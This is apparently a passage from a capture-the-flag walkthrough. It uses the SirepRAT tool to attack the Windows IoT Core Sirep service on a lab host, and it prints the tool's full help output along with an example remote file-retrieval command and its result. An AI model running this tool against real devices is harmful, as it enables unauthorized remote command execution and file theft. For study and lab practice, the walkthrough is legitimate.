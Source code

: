 At this point we should be ready to play around with `SirepRAT` but first, let's have a look at the output of `--help` and get an overview of all available options:

```sh
$ python3 SirepRAT.py --help

usage: SirepRAT.py target_device_ip command_type [options]

Exploit Windows IoT Core's Sirep service to execute remote commands on the device

positional arguments:
  target_device_ip      The IP address of the target IoT Core device
  command_type          The Sirep command to use. Available commands are listed below

optional arguments:
  -h, --help            show this help message and exit
  --return_output       Set to have the target device return the command output stream
  --cmd CMD             Program path to execute
  --as_logged_on_user   Set to impersonate currently logged on user on the target device
  --args ARGS           Arguments string for the program
  --base_directory BASE_DIRECTORY
                        The working directory from which to run the desired program
  --remote_path REMOTE_PATH
                        Path on target device
  --data DATA           Data string to write to file
  --v                   Verbose - if printable, print result
  --vv                  Very verbose - print socket buffers and more

available commands:
*       LaunchCommandWithOutput
*       PutFileOnDevice
*       GetFileFromDevice
*       GetFileInformationFromDevice
*       GetSystemInformationFromDevice

remarks:
-       Use moustaches to wrap remote environment variables to expand (e.g. {{userprofile}})

Usage example: python SirepRAT.py 192.168.3.17 GetFileFromDevice --remote_path C:\Windows\System32\hostname.exe
```

Let the output sink in for a bit, some of these arguments might prove useful in a sec. Next, let's give the example from the `--help` output a try and make sure the script is working:

```sh
 python SirepRAT.py 10.10.10.204 GetFileFromDevice --remote_path C:\Windows\System32\hostname.exe

<HResultResult | type: 1, payload length: 4, HResult: 0x80070002>
```

That didn't return all to much, but we can assume it worked given the returned payload length is 4. Let's try another one, this time we will use a command directly coming from the project's README page. It executes `cmd.exe` and returns the current user profile path. Let's also add `--v` to the command to get more verbose and better-formatted output. There's also `--vv` to play around with, have a play with these different arguments. The `--vv` argument could prove helpful if you would like to get a more thorough understanding of the network internals of the Sirep protocol.
